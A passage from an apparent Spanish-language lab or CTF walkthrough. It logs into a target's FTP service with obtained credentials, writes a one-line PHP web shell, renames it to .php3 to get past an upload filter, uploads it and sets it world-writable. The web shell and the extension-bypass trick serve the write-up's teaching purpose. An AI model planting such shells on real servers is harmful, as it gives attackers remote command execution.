 Nos conectamos por FTP con las credenciales obtenidas y observamos que estamos ante el directorio que tenemos capacidad de directory listing via web

```bash
❯ ftp 192.168.1.147
Connected to 192.168.1.147.
220 Customer Access Level: ULTRA
Name (192.168.1.147:yorch): ftpUserULTRA
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Desktop
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Documents
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Downloads
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Music
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Pictures
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Public
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Templates
drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Videos
-rw-r--r--    1 0        0             191 Feb 22  2019 battle2root.html
-rwxr-xr-x    1 0        0              76 Feb 20  2019 hello_world.pl
-rwxr-xr-x    1 1002     1002         1131 Feb 21  2019 main.php
226 Directory send OK.
```

En este punto tratamos de subir un archivo PHP con código malicioso con la intención de obtener RCE en la mñáquina víctima. Si tratamos de subir el archiv con extensión PHP nos bloquea la subida. Para bypassear esta restricción crearemos el archivo con extensión `php3`

```bash
❯ cat cmd.php3
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: cmd.php3
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │     system($_GET['cmd']);
   3   │ ?>
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Subimos el archivo y le damos permisos 777

```bash
ftp> put cmd.php3
local: cmd.php3 remote: cmd.php3
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
32 bytes sent in 0.00 secs (504.0323 kB/s)
ftp> chmod 777 cmd.php3
200 SITE CHMOD command ok.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x   14 1002     33           4096 May 12 07:08 .
drwxrwxr-x   14 1002     33           4096 May 12 07:08 ..
```